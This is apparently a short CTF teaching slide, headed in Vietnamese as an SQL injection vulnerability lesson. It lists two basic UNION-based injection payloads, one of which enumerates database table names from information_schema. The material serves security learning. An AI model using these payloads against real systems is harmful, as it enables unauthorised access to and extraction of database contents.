

# Learn ctf
- Lỗ hổng sql injection
-1 UNION SELECT 1,2,3,4
- 1 UNION SELECT table_name,2,3,4 FROM information_schema.tables
5